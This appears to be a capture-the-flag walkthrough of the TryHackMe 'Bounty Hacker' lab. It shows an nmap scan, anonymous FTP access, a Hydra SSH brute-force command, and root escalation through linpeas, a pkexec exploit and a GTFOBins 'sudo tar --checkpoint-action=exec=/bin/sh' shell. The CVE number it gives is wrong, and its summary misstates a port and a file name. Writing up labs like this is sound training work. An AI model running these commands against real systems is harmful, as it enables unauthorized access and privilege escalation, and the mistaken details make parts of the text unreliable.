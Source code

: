 ```yaml
---
title: Bounty Hacker - TryHackMe
date: 2022-09-04 14:42:24 +0800
categories: [Blogging, TryHackme]
tags: [walkthrough]     # TAG names should always be lowercase
pin: true
---
```

	



You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
**Bounty Hacker** is a room in <a href="www.TryHackme.com">TryHackMe</a>. In this article you will learn 
how to exploit the **sudo** misconfiguration when there is a password reusable vulnerability in the target machine.

![Room Description](/assets/pictures/Description.png)
_Room Description_

Let's do this...

## Nmap
First of all I love to start by conducting an <code style="color: green">Nmap</code> scan on the target.


```console
$ nmap -sV -p- -vv -oN nmap {Target_IP}
Initiating Connect Scan at 15:13
Scanning 10.10.181.69 [65535 ports]
Discovered open port 80/tcp on 10.10.181.69
Discovered open port 21/tcp on 10.10.181.69
Discovered open port 22/tcp on 10.10.181.69

```
## Port 80
First Let's start with **port 80**. 

![port 80 web](/assets/pictures/TargetPort80.png)
_Port 80_
Went through the source code and nothing was interesting. 
<br>
<br>
##	 Port 21
File Transfer Protocal Service runs on port 21. The File Transfer Protocol provides a framework to transfer information between two networked computers, much like Hypertext Transfer Protocol does through a web browser.
<br>
I tried to login to this port anonymously and it was successful.

```console
ftp 10.10.195.119
Connected to 10.10.195.119.
220 (vsFTPd 3.0.3)
Name (10.10.149.154:nesh): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
![Ftp Image](/assets/pictures/ftp.png)
_ftp Service on port 21_
<br>
<br>
I downloaded all the files from this port using the `Mget *` command.
The two texts files were:
<code style="color: green;">Locks.txt</code>
and
<code style="color: green;">task.txt</code>

```console
$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
From the <code style="color: green">task.txt</code> we gather that we have a user whose name is `lin`
<br>
 **Username: lin**
<br>
On the other hand the other file seemed to be a password container. With this file, we could 
perform a password dictionary attack using a tool known as Hydra.  
<br>
Performing the attack on **Port 22** 
## Port 22 
The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce <code style="color: green">SSH</code> with the username being user and a password list being <code style="color: green">locks.txt</code>, we'd use the following command:
```console
hydra -l lin -P /home/nesh/tryhackme/BountyHacker 10.10.195.119  -t 4 ssh
```
![Hydra password Attack](/assets/pictures/hydra.png)
_Hydra Password attack_
```console
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-04 21:23:38
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.149.154:22/
[22][ssh] host: 10.10.149.154   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-04 21:23:49
```
**Username: <code style="color: green">lin</code> Password: <code style="color: green">RedDr4gonSynd1cat3</code>**
<br>
Now that we have the needed credentials to ssh to the machine, Let's do it ...

`$ ssh lin@10.10.149.154`

![ssh login](/assets/pictures/ssh.png)
_SSH Login on port 22_
```console
Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
lin@bountyhacker:~/Desktop$ 

```
## Priviledge Escalation
There are two ways to escalate priviledges to root:
<br>
## **Method 1** : Using _Linpeas Script_
 
For PrevEsc I love running <code style="color:green;">linpeas script</code>. To scan for vulnerabilities in 
the target system. 
<br>
I uploaded the linpeas script to my port 80, so that I can go on the target machine to <code style="color: green">/tmp</code> directory and run the script.
<br>
![port 80](/assets/pictures/tun0.png)
_Local host_
<br>

I need to go to the <code style="color: green">/tmp</code> to download the script to the script.
![Linpeas Script](/assets/pictures/linpeas.png)
_Linpeas Script_
It's time to run the script ...
```console
$ ./linpeas.sh
```
![Script](/assets/pictures/script.png)
_Linpeas Script_
Found the target was vulnerable to <code style="color: green">CVE-2020-4034</code>.
<br>
**CVE-2020-4034**
<br>

A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine. 

<br>
There are two versions of the CVE exploit: `Python3 Exploit` `C language exploit`
I uploaded the CVE exploit to my port 80 and went to the target machine and downloaded it there.
![CVE](/assets/pictures/cve.png)
After running the script I was in root group. And collected the root flag 
`root.txt`
```html
THM{80UN7Y_h4cK3r}
```
![Root](/assets/pictures/root.png)
_Machine Pwned_
## method 2: Using GTFOBINs
GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

```console
lin@bountyhacker:/tmp$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
Using the command `$ sudo -l` , we see that the user `lin` can run the <code style="color:green;">/bin/tar</code> command with `root` priviledges.
<br>
Let's see what `GTFOBINS` has for us ...
![GTFOBINS](/assets/pictures/gtf.png)
_GTFOBINS Github_
Now let's run the command on our target..
```console
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
![Gtfobins](/assets/pictures/targtf.png)
![pwned](/assets/pictures/final.png)
_Machine Pwned_
There is need upgrade the shell
```console
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```
And collected the root flag:
```console
$ cat /root/root.txt
THM{80UN7Y_h4cK3r}
```
<br>
## Summary
- From the <code style="color: green;">Nmap</code> scan, we found 3 open ports i.e 
	- <code style="color: green;">Port 21 (ftp)</code>
	- <code style="color: green;">Port 22 (ssh)</code>
	- <code style="color: green;">Port 80 (http)</code>
- Port 22 allowed <code style="color: green;">anonymous</code> login. After the succesful login I found 2 files on the ftp server. <code style="color: green;">locks.txt</code>, <code style="color: green;">note.txt</code>. After I opened <code style="color: green;">note.txt</code> I found Username <code style="color: green;">lin</code> and on the other file I found some password stored iin the file.
- I used <code style="color: green;">locks.txt</code> as my dictionary to Bruteforce the <code style="color: green;">ssh login</code> using a tool known as <code style="color: green;">hydra</code>.
- I found `lin's password` and used that to login to the machine using <code style="color: green;">ssh</code>. 
- I found that I could escalate my previledges using 2 methods: 
	- <code style="color: green;">Linpeas script</code>
	- <code style="color: green;">GTFOBINS Github</code>
- With this 2 methods I `Pwned the machine`
<br>
<br>

It was indeed a lot of fun. I hope you enjoyed reading through it. 
<iframe src="https://giphy.com/embed/d68IdpvmAHohx5NMEV" width="480" height="344" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="https://giphy.com/gifs/moodman-thank-you-thankyou-d68IdpvmAHohx5NMEV"></a></p>